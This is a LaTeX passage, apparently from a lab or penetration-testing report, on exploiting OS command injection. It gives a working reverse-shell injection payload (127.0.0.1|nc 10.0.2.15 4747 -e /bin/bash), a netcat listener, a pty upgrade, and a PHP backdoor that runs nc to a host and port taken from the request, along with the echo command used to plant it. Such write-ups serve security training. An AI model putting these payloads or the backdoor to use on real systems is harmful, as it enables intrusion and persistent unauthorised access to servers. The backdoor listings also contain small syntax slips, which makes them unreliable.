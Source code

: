 \documentclass{article}
\begin{document}
\subsection{OS Command Injection}
So far we have tried to run a sleep command to check if the payload works. Now that we know that it does, we can exploit it.
We can get a reverse shell using the command nc <attacker\_ip> <attacker\_port> -e /bin/bash.
In our case, nc 10.0.2.15 4747 -e /bin/bash.

So the full payload, in our case is 127.0.0.1|nc 10.0.2.15 4747 -e /bin/bash.

Before sending this payload, we run on the attacker host the command nc -lvp 4747 to listen for incoming connections.

After the payload is send, we can see a new connection and we have access to the host terminal.
Because the host also has python installed, we can easily turn this into an interactive terminal running the command python -c "import pty; pty.spawn('/bin/bash')"
\ref{fig:inject-code}
\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{Figures/command-injection/inject-code.png}
    \caption{\label{fig:inject-code}The injected code}
\end{figure}

In case this vulnerability gets fixed, we can now install a backdoor into the server so we will still have access to it.
For this, we will insert a php script that gives a reverse shell.\ref{php:backdoor}

\begin{lstlisting}[language=php,caption={Backdoor Code},label=php:backdoor]
<?php
exec("nc " . $_GET["server"] . " " . $_GET["port"] . " -e /bin/bash");"
\end{lstlisting}

And we can write this backdoor using our reversed shell.
\begin{lstlisting}[language=bash,caption={Backdoor Code in bash},label=bash:backdoor]
echo "<?php
exec(\"nc \".\$_GET[\"server\"].\" \".\$_GET[\"port\"].\" -e /bin/bash\");"
\end{lstlisting}
\end{document}
